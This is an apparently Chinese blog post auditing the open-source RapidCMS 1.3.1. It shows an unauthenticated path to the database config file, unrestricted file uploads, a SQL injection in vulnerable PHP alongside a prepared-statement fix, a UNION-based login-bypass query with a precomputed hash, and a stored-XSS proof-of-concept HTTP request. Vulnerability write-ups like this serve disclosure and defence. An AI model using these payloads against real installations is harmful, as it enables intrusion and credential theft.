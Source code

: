#  RapidCMS 1.3.1代码审计 （超多漏洞点）   
原创 LULU  红队蓝军   2024-11-01 18:05  
  
影响版本：RapdiCMS(1.3.1版本)  
  
下载地址：https://github.com/OpenRapid/rapidcms  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nN8xyABib9Chml0KKwjxTDEZetD0s6gGyCb1NVyiashAiaYb1kG6fp3wztw/640?wx_fmt=png&from=appmsg "")  
## 未授权  
  
**登录存在未授权访问**  
  
1、使用burp抓包，查找登录接口代码文件  
  
使用post发起请求，通过runlogin.php文件传递了两个参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNFmB8uMA7Xiac4S16SCGF04AkhBviaHVB9QqL4q82pAicEAKyfKysZxMJw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNS8iar6jUWNG6aYckHIY8HNS1c0Qz54oslKfSvbvzeOyNFGwPjzxaCGA/640?wx_fmt=png&from=appmsg "")  
  
查看runlogin.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nN98AVt4THoZt6ONoShmgXVyxaCQw8NWhzcy76aYaVYBaCMYuXibow9Bg/640?wx_fmt=png&from=appmsg "")  
  
这个时候直接通过GET读取sql.json文件  
  
访问：http://xxx.com/install/sql-config/sql.json  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNDcwd53dfE0PxM02DKhvyp1ojOSE0uHicOuKuw6BWFkQBbXB5a3t3qoQ/640?wx_fmt=png&from=appmsg "")  
## 文件上传1  
  
进入后台后，基于功能点进行代码审计  
  
基本设置-图标 admin/uploadicon. php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nN0R0YCp59NtyKPDvrKfqcV4yUicNeYicRc2sNptOIdLwW7P2tkkcDGQTA/640?wx_fmt=png&from=appmsg "")  
  
可以看到没有做过的校验和限制，这时候使用burp抓包之后，修改上传的后缀即可。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNoia46y6wrVoND6ngyrKyXVUWK3mKJh6iabImbOia58Xx7GzibsbhYcqcIg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNPymTdeeSmpO3yibW5du2rW5GuMoSw7La6AL0xY2iatuWhDGxZ0weIIsw/640?wx_fmt=png&from=appmsg "")  
## 文件上传2  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNibhBqgjS6VfJtsAGSMZtibegSj51lrhkB46l5JrCUT4Dw1erHD5ezl8w/640?wx_fmt=png&from=appmsg "")  
  
新增文章admin/upload. php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNkcfYlKkLfjARbhWgFYdV7MqjJ18wEbmL0518L8BlpjiagPulIBq6lww/640?wx_fmt=png&from=appmsg "")  
  
和上述一样，使用burp抓包即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNd9wEd7gMckqd4DU4aG4RzQKHiaugfbQpGKcem8IRCRgdDgaLw4s4kvQ/640?wx_fmt=png&from=appmsg "")  
## sql注入  
  
新增分类cate-add-run. php  
```

<?php
include("../check.php");

header ( "Content-type:text/html;charset=utf-8" );
$json_string = file_get_contents('../../install/sql-config/sql.json');
$dataxxx = json_decode($json_string, true);
$link=mysqli_connect($dataxxx['server'],$dataxxx['dbusername'],$dataxxx['dbpassword']);

if($link)
{
    $select=mysqli_select_db($link,$dataxxx['dbname']);
  if($select)
  {

      $str='INSERT INTO `rapidcmscategory`(`id`, `name`, `pic`, `num`) VALUES ("'.$_POST["id"].'","'.rawurlencode($_POST["name"]).'","'.$_POST["pic"].'",'.$_POST["num"].')';

   $result=mysqli_query($link,$str);
      sendalert("增加成功！");
  }
}
?>

```  
  
分析：从POST请求中获取参数（id、name、pic、num），并构建SQL插入语句，将数据插入到rapidcmscategory表中。  
  
这里没有对通过post传递的参数进行校验，就像rapidcmscategory总插入数据  
  
**获取数据库**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNibMtzle4l6bh3NicRLcDETTq8Vot7aWL8qdx61LiapNXM1Q838oGQXL4Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nN34j3FRWhYCr5XukfCGXXfZ48Gic2TqOzQ9jGR1mRZZT9EmI5slfoJ5Q/640?wx_fmt=png&from=appmsg "")  
  
整个CMS中存在很多的SQL注入漏洞  
  
**SQL注入修复方式**  
```
$stmt = $link->prepare('INSERT INTO `rapidcmscategory`(`id`, `name`, `pic`, `num`) VALUES (?, ?, ?, ?)');
$stmt->bind_param('sssi', $_POST["id"], rawurlencode($_POST["name"]), $_POST["pic"], $_POST["num"]);
$stmt->execute();


```  
  
整个CMS中存在很多的SQL注入漏洞，比如。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNu0U3xKI8Eylb4341Pt7VxuujH0oviaRfjtruURbJwMHPQAicBvuyjgeQ/640?wx_fmt=png&from=appmsg "")  
## 登录逻辑绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7u3H5soucic1rc3uPkYB9nNicwzdYtYJ9awr78Syayiaz2wFkp8JIoR1t89NPjFSu10fdYbez7krt8w/640?wx_fmt=png&from=appmsg "")  
  
只要满足  
password11匹配成功，登录成功，这里就可以利用SQL注入将password经过md5、sha1、md5加密后的值。进行绕过。  
  
**第一步：**  
  
将password=admin这个值进行md5、sha1、md5加密，加密后值为：83C72CE1CAB133635EF751487234A947  
  
**第二步：**  
  
使用sql方式进行注入，向数据库注入存储的密码$pa  
```
select password from `rapidcmsadmin` Where username = 'admin' union select '83C72CE1CAB133635EF751487234A947' -- a;

```  
  
**第三步：**  
  
使用burp抓包，password=admin，经过  
password)));后，与数据库中$pa相匹配。  
## XSS漏洞  
  
漏洞地址：/admin/article/article-add-run.php  
  
POC  
```
POST /admin/article/article-add-run.php HTTP/1.1
Host: demo.com
Content-Length: 115
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://demo.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://demo.com/admin/article/article-add.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1722062988348; xinhu_ca_rempass=0; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1723172185; csrf_358693=2df7a84f; SECKEY_ABVK=OwAgykiuZ90JyymTDay7TVxsu9K7i77SDQ1wYucKShE%3D; BMAP_SECKEY=zsabggfKizJ7RMP-whUACbv-8Y8e5RtMYzyqN6tgzDDcqlIgvjPYXLThdapgeYvMI5gtvLD423X1mOjreODpLfh2LBSqd-MfWUOnirBpX6X5MhDcI2h78cg9SCeZlworW5OtN5Li7126gdR5a9n2B0G1H09Eu9K-e5yMSsxdwbkojLGWbNKpJSNGySLmO3bA; lang=zh-cn; vision=rnd; device=desktop; theme=default; hideMenu=false; preExecutionID=3; executionTaskOrder=status%2Cid_desc; Hm_lvt_5964cd4b8810fcc73c98618d475213f6=1723680035; http304ok=1; qebak_loginlangid=1; csrf_f2b6b4=adc34ccd; downloading=null; storyModuleParam=0; storyProductParam=0; storyBranchParam=0; executionStoryOrder=order_desc; storyPreExecutionID=3; docSpaceParam=%7B%22type%22%3A%22execution%22%2C%22objectID%22%3A%223%22%2C%22libID%22%3A%227%22%2C%22moduleID%22%3A%220%22%2C%22browseType%22%3A%22%22%2C%22param%22%3A%220%22%7D; lastDocModule=0; lastProject=2; docFilesViewType=list; tab=doc; xinhu_ca_adminuser=admin; xinhu_mo_adminid=eg0el0gx0ttm0tut0et0mx0ml0ea0el0tuj0tuj0ee0tua0ew0mg09; admin=Y4W4R2t0a9Wa46O0O0Oa
Connection: keep-alive

id=eMU9DDcw3b&title=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&categoryid=1&file=&content=%3Cp%3E%3Cbr%3E%3C%2Fp%3E

```  
## 参考文章：  
  
https://mp.weixin.qq.com/s/MDzVmu-HIRApIumuoetpjw  
  
https://xz.aliyun.com/t/14577#toc-10  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
